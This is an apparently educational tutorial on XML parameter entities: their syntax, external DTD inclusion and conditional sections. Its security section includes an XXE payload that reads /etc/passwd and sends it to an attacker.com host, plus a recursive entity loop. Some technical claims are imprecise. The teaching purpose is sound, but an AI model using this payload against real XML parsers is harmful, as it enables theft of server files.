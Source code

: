 # Learning


Parameter entities in XML are used within DTDs (Document Type Definitions) and are different from general entities, which are used in the XML content itself. Parameter entities are primarily used for defining reusable content or DTD fragments and help in structuring DTDs in a modular way.


What Are Parameter Entities?
Parameter entities are declared with a % character, followed by the entity name, and are used in DTDs (not in the XML document body).
They are typically employed to include reusable DTD fragments or configuration within the DTD.
To reference a parameter entity, you need to use %entityName; inside the DTD.

Syntax for Declaring Parameter Entities


<!ENTITY % entityName "replacement text or value">

%entityName; will be replaced with "replacement text or value" wherever it is referenced in the DTD.

Examples of Parameter Entities

1. Basic Parameter Entity Usage

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ELEMENT root (#PCDATA)>
]>
<root>%greeting;</root>

In this example:
The DTD defines a parameter entity named greeting with the value "Hello, World!".
However, this example is incorrect in practice because %greeting; cannot be used directly in the XML document content.

To use the parameter entity, you need to declare an additional general entity:

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ENTITY myGreeting "%greeting;">
   <!ELEMENT root (#PCDATA)>
]>
<root>&myGreeting;</root>

Here, myGreeting is a general entity that uses the value of the parameter entity %greeting.

2. Including an External DTD Using Parameter Entities
You can use parameter entities to include external DTDs, making the DTD modular and easier to maintain.


External DTD (common.dtd):

<!ENTITY % commonElements "<!ELEMENT greeting (#PCDATA)>">

Main XML File:

<!DOCTYPE root [
   <!ENTITY % common SYSTEM "http://example.com/common.dtd">
   %common;
   %commonElements;
]>
<root>
   <greeting>Hello from an external DTD!</greeting>
</root>

In this example:
The parameter entity %common references an external DTD file located at http://example.com/common.dtd.
%commonElements; is used to insert the content from the external DTD (in this case, an element declaration).


3. Conditional DTD Sections Using Parameter Entities
Parameter entities can be used to include or exclude parts of a DTD based on conditional sections.

<!DOCTYPE root [
   <!ENTITY % includeGreeting "INCLUDE">
   <![%includeGreeting;[
      <!ELEMENT greeting (#PCDATA)>
   ]]>
   <!ELEMENT root (greeting)>
]>
<root>
   <greeting>Conditional Greeting Example</greeting>
</root>

In this example:
The %includeGreeting parameter entity determines whether the greeting element is included.
The conditional section <![%includeGreeting;[ ... ]]> is included because %includeGreeting is set to "INCLUDE".

Security Implications of Parameter Entities
XML External Entity (XXE) Attacks 

Parameter entities can be used to reference external files or resources, leading to XXE vulnerabilities if the XML parser is not configured securely

<!DOCTYPE root [
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
]>
<root>&exfil;</root>
In this XXE example, an external file (/etc/passwd) is accessed and sent to an attacker's server.

Entity Reference Loops Defining parameter entities that reference each other in a circular manner can cause infinite loops:

<!ENTITY % loop "%loop;">
This will trigger a "detected an entity reference loop" error in most XML parsers.

Differences Between Parameter Entities and General Entities

Feature   Parameter Entities  General Entities
Declared with
% (e.g., <!ENTITY % name "value">)
None (e.g., <!ENTITY name "value">)
Usage Scope
Within DTDs only
In XML document content
Syntax for Reference
%name;
&name;
Typical Use Cases
Including DTD fragments, conditional DTD sections
Embedding content in XML
Security Considerations
Can lead to XXE or loops if misconfigured
Rarely used for file access


Summary
Parameter entities are a powerful feature in XML DTDs that help in reusing and modularizing DTD content. However, they must be used with caution due to the security risks associated with external entities and potential loops. Proper configuration of XML parsers and secure handling of DTDs is crucial to avoid XXE vulnerabilities.
